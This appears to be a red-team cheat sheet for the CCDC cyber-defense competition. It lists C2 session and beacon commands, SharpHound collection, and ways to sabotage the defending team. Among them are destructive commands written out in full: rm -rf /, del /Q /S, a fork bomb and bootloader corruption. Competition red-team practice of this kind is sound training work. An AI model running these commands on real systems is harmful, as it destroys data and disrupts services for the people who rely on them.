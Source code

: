   - `sessions -i {id}` to interact with session
    - `CTRL + d` to exit
    - `shell {command}` will execute command in a session (can maybe run without `shell`?)
    - `getprivs` will list privileges available, probably use /ProgramData/ for potatoes?
    - `info` - host info
    - `ps` - process list
    - `upload`/`download` - file transfer
    - `screenshot` - grab a screenshot
- `beacons` to show active beacons
  - `use {beacon_id}` to use a beacon
    - `interactive` to turn it into a normal session
- Armory:
  - Install all with `armory install all`
  - Sharphound: `sharp-hound-4 -- '-c all,GPOLocalGroup'`

## Messing with Blue Team

**Killing Services**
- Soft breaks:
  - `systemctl stop {service}` 
    - This is too kind, we shant do this :>
  - Edit service configs
  - Drop 50% of incoming firewall packets
  - `keyboard_desktop_flipper.sh`
  - `service_stopper.sh`
  - `command_rotate.sh`
- Hard breaks:
  - Delete configs
  - Destructive firewall rules
  - Remove scoring assets
  - Delete entire binaries/files
  - `ip_rotate.sh`
- Nukes:
  - `rm -rf / -no-preserve-root`
  - `del /Q /S`
  - Fork bombing (`:(){ :|:& };:`)
  - `timebomb.sh`
  - Corrupt bootloader partitions

**Trolling**
- By far the most important part of CCDC
- Spawn message box on Windows:
  - `Add-Type -AssemblyName PresentationFramework;   [System.Windows.MessageBox]::Show("{message_box_message}", "{message_box_title}", 0, 64)`
- Wall on linux:
  - `wall "dance"`
- Spawn 50 notepads:
  - `1..50 | ForEach-Object {Start-Process notepad}`
    - Can do something like `calc` or 
- Set all computers to same background:
  - GPO management > right-click domain > Create GPO in domain and link here > Right click on new GPO + edit > User Configuration\Policies\Administrative Templates\Desktop\Desktop > desktop wallpaper > select `enabled` + enter path of image and select fill for style > apply + ok > `gpupdate /force`
- `misc::wp /file:{path}` to set the current PC's wallpaper

